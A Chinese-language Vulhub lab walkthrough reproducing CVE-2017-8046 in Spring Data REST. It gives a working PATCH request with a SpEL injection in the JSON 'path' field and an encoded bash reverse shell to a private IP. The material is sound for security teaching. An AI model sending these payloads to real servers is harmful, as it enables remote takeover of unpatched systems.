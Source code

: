 # Spring Data Rest 远程命令执行漏洞CVE-2017-8046

## 漏洞描述

Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现[RFC6902](https://tools.ietf.org/html/rfc6902)），path的值被传入`setValue`，导致执行了SpEL表达式，触发远程命令执行漏洞。

参考链接：

- [http://xxlegend.com/2017/09/29/Spring%20Data%20Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/](http://xxlegend.com/2017/09/29/Spring Data Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/)
- [https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html](https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞(CVE-2017-8046)_分析与复现.html)

## 环境搭建

Vulhub执行如下命令启动漏洞环境：

```
docker-compose up -d
```

等待环境启动完成，然后访问`http://your-ip:8080/`即可看到json格式的返回值，说明这是一个Restful风格的API服务器。

![image-20220301144324049](images/202203011443101.png)

## 漏洞复现

先将命令转为ASCII码表示：

```python
# Payload to ASCII
payload = b'touch /tmp/awesome_poc'
bytecode = ','.join(str(i) for i in list(payload))
print(bytecode)
```

执行结果：

```
116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99
```

开始复现，访问`http://your-ip:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99}))/lastname", "value": "vulhub" }]
```

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99}`表示的命令`touch /tmp/awesome_poc`。

![image-20220301145537369](images/202203011455445.png)

进入容器`docker-compose exec spring bash`查看，可见，文件`awesome_poc`被成功创建：

![image-20220301145500645](images/202203011455722.png)

将bytecode改成反弹shell的命令，并进行转换：

```
# 反弹shell命令
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}

# bytecode
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,51,78,67,52,120,77,106,103,118,79,84,107,53,79,83,65,119,80,105,89,120,67,103,111,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

发送数据包：

![image-20220301145823746](images/202203011458842.png)

成功接收反弹shell：

![image-20220301145803433](images/202203011458521.png)
